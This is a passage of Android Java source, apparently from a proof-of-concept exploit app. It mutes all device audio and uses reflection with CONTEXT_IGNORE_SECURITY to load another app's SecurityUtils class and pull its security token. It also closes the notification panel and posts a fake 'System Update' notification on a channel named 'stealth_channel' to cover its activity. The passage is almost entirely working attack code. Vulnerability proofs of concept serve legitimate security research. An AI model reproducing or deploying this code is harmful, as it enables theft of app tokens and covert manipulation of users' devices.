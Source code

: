 ```java
                int[] streams = {  
                        AudioManager.STREAM_MUSIC,  
                        AudioManager.STREAM_NOTIFICATION,  
                        AudioManager.STREAM_RING,  
                        AudioManager.STREAM_ALARM,  
                        AudioManager.STREAM_SYSTEM  
                };  
                for (int s : streams) am.setStreamVolume(s, 0, 0);  
                Log.i("PoC", "device audio muted");  
            }  
        } catch (Exception e) {  
            Log.w("PoC", "mute failed: " + e.getMessage());  
        }  
    }  
    // reflection  
    private String getToken() {  
        try {  
            Context vc = createPackageContext(V_PKG, CONTEXT_INCLUDE_CODE | CONTEXT_IGNORE_SECURITY);  
            Class<?> su = vc.getClassLoader().loadClass(V_PKG + ".SecurityUtils");  
            return (String) su.getMethod("getSecurityToken")  
                    .invoke(su.getDeclaredConstructor().newInstance());  
        } catch (Exception e) {  
            Log.e("PoC", "token fail", e);  
            return null;  
        }  
    }  
    // try close notification panel  
    private void hideNotificationPanel() {  
        try {  
            Intent closeDialogs = new Intent("android.intent.action.CLOSE_SYSTEM_DIALOGS");  
            sendBroadcast(closeDialogs);  
            Log.i("PoC", "closed notification panel");  
        } catch (Exception e) {  
            Log.w("PoC", "cannot close notification panel: " + e.getMessage());  
        }  
    }  
    // send dummy notification  
    private void postDummyNotification() {  
        try {  
            if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.O) {  
                android.app.NotificationChannel channel =  
                        new android.app.NotificationChannel("stealth_channel",  
                                "System Updates", NotificationManager.IMPORTANCE_LOW);  
                NotificationManager nm = (NotificationManager) getSystemService(Context.NOTIFICATION_SERVICE);  
                nm.createNotificationChannel(channel);  
  
                android.app.Notification notif = new android.app.Notification.Builder(this, "stealth_channel")  
                        .setSmallIcon(android.R.drawable.ic_dialog_info)  
                        .setContentTitle("System Update")  
                        .setContentText("Checking for updates...")  
                        .setPriority(android.app.Notification.PRIORITY_LOW)  
                        .setOngoing(false)  
                        .setAutoCancel(true)  
                        .build();  
  
                nm.notify(999, notif);  
                Log.i("PoC", "dummy notification posted");  
            }  
        } catch (Exception e) {  
            Log.w("PoC", "dummy notification failed: " + e.getMessage());  
```